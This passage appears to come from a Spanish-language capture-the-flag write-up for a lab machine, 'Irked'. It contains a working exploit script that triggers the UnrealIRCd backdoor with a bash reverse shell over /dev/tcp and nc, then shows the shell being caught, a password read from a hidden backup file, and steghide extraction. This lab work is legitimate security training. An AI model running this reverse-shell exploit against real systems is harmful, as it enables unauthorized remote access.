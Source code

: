 ```bash
# ./exploit.sh

function helpPannel(){
        echo -e "\n\n[!] Uso: $0 Ip Port\n"
        exit 1
}

# Variables IP & PORT
ip=$1
port=$2

# Procedemos a ganar acceso al sistema
echo -e "\n[*] Ganando acceso al sistema 10.10.10.117 atraves del Servicio UnrealIRCd por el puerto 6697 desde la $ip estando a la escucha por el $port\n"
# Abrimos el servicio de UnrealIRCd con netcat para enviar nuestro comando
echo "AB; cd /tmp; bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'" | nc 10.10.10.117 6697
sleep 2
exit 0
```
Procedemos a ejecutarlo para con una session de netcat a la escucha por el puerto que queramos
```bash
# ./AutoPwn_UnrealIRCd.sh 10.10.16.241 443                                                                                                         1 ⚙

[*] Ganando acceso al sistema 10.10.10.117 atraves del Servicio UnrealIRCd por el puerto 6697 desde la 10.10.16.241 estando a la escucha por el 443
:irked.htb NOTICE AUTH :*** Looking up your hostname...
```
Recibimos la conexion entrante
```bash
# nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.241] from (UNKNOWN) [10.10.10.117] 39968
bash: cannot set terminal process group (639): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:/tmp$ 
```
Realizamos un tratamiento de la tty
Enumeramos el sistema en busca de la flag user.txt
```bash
ircd@irked:/home/djmardov/Documents$ ls -la
total 16
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
```
La encontramos y vemos que no podemos leer ya que pertenece al usuario `djmardov`
Tambien encontramos el archivo `backup`, asique vamos a hecharle un ojo.
```bash
ircd@irked:/home/djmardov/Documents$ cat .backup 
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Vemos que tenemos una passwd para steg, probamos a usarlo para la foto de portada de la web.
```bash
# steghide extract -sf irked.jpg                                                                                                                   5 ⚙
Anotar salvoconducto: 
anot� los datos extra�dos e/"pass.txt".
```
Verificamos el archivo pass.txt que se acaba de extraer 
```bash
# cat pass.txt                                                                                                                                     5 ⚙
```